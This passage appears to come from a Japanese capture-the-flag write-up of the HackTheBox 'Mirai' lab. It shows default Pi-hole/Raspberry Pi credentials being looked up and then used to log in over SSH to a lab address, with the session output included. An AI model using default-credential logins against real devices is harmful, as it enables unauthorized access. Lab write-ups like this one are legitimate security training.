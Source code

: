 passwdが分からなかったのでPi-hole default passwdで検索すると
`pi`:`waspberry`と出てきた

![](image-2.png)

しかしログインできなかったのでssh接続試すと行けた


## 初期侵入

### ssh
`pi`:`waspberry`を使う
```
┌──(kali㉿kali)-[~/htb/Retired_Machines/Mirai]
└─$ ssh pi@10.10.10.48                
The authenticity of host '10.10.10.48 (10.10.10.48)' can't be established.
ED25519 key fingerprint is SHA256:TL7joF/Kz3rDLVFgQ1qkyXTnVQBTYrV44Y2oXyjOa60.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.48' (ED25519) to the list of known hosts.
pi@10.10.10.48's password: 

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Aug 27 14:47:50 2017 from localhost

SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.

```